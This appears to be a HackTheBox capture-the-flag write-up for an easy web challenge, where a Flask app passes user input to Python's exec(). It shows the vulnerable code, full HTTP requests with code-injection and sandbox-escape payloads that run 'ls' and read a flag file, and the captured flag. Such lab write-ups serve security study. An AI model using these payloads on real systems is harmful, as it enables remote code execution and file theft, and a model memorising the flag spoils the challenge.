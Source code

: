 ```yaml
---
Category: Web
Difficulty: Easy
Platform: HackTheBox
Retired: true
Status: 3. Complete
Tags:
  - code-review
  - command-injection
  - jail-escape
  - python-exec
  - flask
---
```

>[!quote]
> aw man, aw geez, my grandpa rick is passed out from all the drinking again, where is a calculator when you need one, aw geez****


## Information Gathering

Home page generates random numbers any time is refreshed:

![Pasted image 20210908155550.png](Pasted_image_20210908155550.png)

![Pasted image 20210908155626.png](Pasted_image_20210908155626.png)

Source code contains a `/debug` comments suggesting the presence of a `/debug` endpoint:

![Pasted image 20210908155816.png](Pasted_image_20210908155816.png)

![Pasted image 20210908155859.png](Pasted_image_20210908155859.png)

## The bug

Applications uses `exec()` in order to assign garage's attributes:

```python
def calc(recipe):
	global garage
	garage = {}
	try: exec(recipe, garage)
	except: pass

...

def GCR(func): # Great Calculator of the observable universe and it's infinite timelines
	@wraps(func)
	def federation(*args, **kwargs):
		ingredient = ''.join(choice(lowercase) for _ in range(10))
		recipe = '%s = %s' % (ingredient, ''.join(map(str, [randint(1, 69), choice(['+', '-', '*']), randint(1,69)])))
	...
	calc(recipe)
```

However it accepts user supplied input when sending POST data:

```python
if request.method == 'POST':
			ingredient = request.form.get('ingredient', '')
			recipe = '%s = %s' % (ingredient, request.form.get('measurements', ''))
		...
		if garage.get(ingredient, ''):
			return render_template('index.html', calculations=garage[ingredient])
...
@app.route('/', methods=['GET', 'POST'])
@GCR
def index():
	return render_template('index.html')
```

HTTP request (remember to set `Content-type: application/x-www-form-urlencoded`) [^1]

[^1]: https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/POST

```
POST / HTTP/1.1
Host: 46.101.23.188:31846
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: io=3835ca78e28842b3a4d2cf1eec9b8d51; session=eyJhdXRoZW50aWNhdGlvbiI6InVzZXJFQkNkZUFlYSJ9.YR1RRg.g4eore-ZESRjkoTFp6WI8fQwsXI
Upgrade-Insecure-Requests: 1
Content-Length: 34
Content-type: application/x-www-form-urlencoded

ingredient=test&measurements=10099
```

HTTP response:

![Pasted image 20210908161858.png](Pasted_image_20210908161858.png)

## Exploitation

Because user supplied input is passed to the `exec()` function [^2] it is possible to send arbitrary python code that will be evaluated and executed:

[^2]: https://www.programiz.com/python-programming/methods/built-in/exec

```
POST / HTTP/1.1
Host: 46.101.23.188:31846
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: io=3835ca78e28842b3a4d2cf1eec9b8d51; session=eyJhdXRoZW50aWNhdGlvbiI6InVzZXJFQkNkZUFlYSJ9.YR1RRg.g4eore-ZESRjkoTFp6WI8fQwsXI
Upgrade-Insecure-Requests: 1
Content-Length: 72
Content-type: application/x-www-form-urlencoded

ingredient=test&measurements=__import__('subprocess').check_output('ls')
```

![Pasted image 20210908162344.png](Pasted_image_20210908162344.png)

HTTP Request (payload from HackTricks [^3]):

[^3]: https://book.hacktricks.xyz/misc/basic-python/bypass-python-sandboxes

```
POST / HTTP/1.1
Host: 46.101.23.188:31846
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: io=3835ca78e28842b3a4d2cf1eec9b8d51; session=eyJhdXRoZW50aWNhdGlvbiI6InVzZXJFQkNkZUFlYSJ9.YR1RRg.g4eore-ZESRjkoTFp6WI8fQwsXI
Upgrade-Insecure-Requests: 1
Content-Length: 90
Content-type: application/x-www-form-urlencoded

ingredient=test&measurements=().__class__.__bases__[0].__subclasses__()[40]('flag').read()
```

Also `__import__("os").popen("cat flag").read()` is a valid payload

![Pasted image 20210908163039.png](Pasted_image_20210908163039.png)

## Flag

>[!success]
>`HTB{n3v3r_trust1ng_us3r_1nput_ag41n_1n_my_l1f3}`
